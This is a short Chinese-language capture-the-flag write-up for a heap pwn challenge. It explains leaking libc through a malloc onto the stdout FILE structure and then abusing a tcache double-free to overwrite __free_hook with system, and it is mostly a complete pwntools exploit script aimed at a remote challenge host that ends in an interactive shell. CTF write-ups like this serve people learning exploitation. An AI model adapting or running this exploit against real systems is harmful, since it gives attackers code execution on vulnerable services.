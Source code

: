 远程测试，发现有tcache机制

于是malloc到stdout结构体，去改头，然后leak出libc地址，找了下，发现是libc-2.26的

leak那一步可以看angleboy的slide

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

然后再利用tcache的漏洞，写__free_hook为system，free掉之后直接get shell

下面是payload

```
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
    e=ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
else:
    p=remote('90b826377a05d5e9508314e76f2f1e4e.kr-lab.com', 40001)
    e=ELF('./libc6_2.26-0ubuntu2_amd64.so')

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

ru('username:')
se('admin\n')
ru('password:')
se('frame\n')
ru('>')

def add(name,sz,content):
    sl('1')
    ru('name')
    se(name)
    ru('size:')
    sl(str(sz))
    ru('description:')
    se(content)
    return ru('>')

def delete(idx):
    sl('2')
    ru('index:')
    sl(str(idx))
    ru('>')

sz = 0x88
add('0',sz,'123')

for i in range(4):
    delete(0)

add('1',sz,p64(0x602020))
add('2',sz,'123')
if debug:
    add('3',sz,'\x60')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x80')
    libc = u64(data[:8])
    base = libc - 0x3EC780
else:
    add('3',sz,'\x20')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x40')
    libc = u64(data[:8]) 
    base = libc - 0x3db720 - 0x20

add('5',0x68,'/bin/sh')
delete(5)
delete(5)
delete(5)

free_hook = base+e.symbols['__free_hook']
system = base+e.symbols['system']

add('6',0x68,p64(free_hook))
add('7',0x68,'/bin/sh\x00')
add('8',0x68,p64(system))

sl('2')
ru('index')
sl('7')

print(hex(base))

p.interactive()

```